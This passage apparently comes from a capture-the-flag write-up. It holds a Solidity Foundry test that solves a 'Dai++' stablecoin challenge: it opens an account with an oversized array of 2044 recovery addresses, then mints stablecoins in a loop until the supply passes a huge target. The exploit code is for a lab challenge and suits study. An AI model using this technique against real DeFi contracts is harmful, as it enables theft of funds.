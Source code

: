 ```solidity
        configuration.updateAccountManager(address(manager));
        configuration.updateStablecoin(address(new Stablecoin(configuration)));
        configuration.updateAccountImplementation(address(new Acct()));
        configuration.updateEthUsdPriceFeed(0x5f4eC3Df9cbd43714FE2740f5E3616155c5b8419);

        configuration.updateSystemContract(address(manager), true);
        challenge = new Challenge(configuration);
    }

    function test_daiplusplus() public {
        // 创建一个超长的recoveryAddresses数组
        address[] memory recoveryAddresses = new address[](2044);

        // 打开一个新账户
        Acct account = manager.openAccount(address(this), recoveryAddresses);

        // 铸造大量稳定币
        uint256 targetSupply = 1_000_000_000_000 ether;
        while (IERC20(configuration.getStablecoin()).totalSupply() < targetSupply) {
            manager.mintStablecoins(account, 1_000_000_000_0000 ether, "exploit");
        }
        isSolved();
    }

    function isSolved() public view {
        if (challenge.isSolved()) {
            console.log("Challenge is solved");
        } else {
            console.log("Challenge is not solved");
        }
    }
}

```

## GrainsOfSand
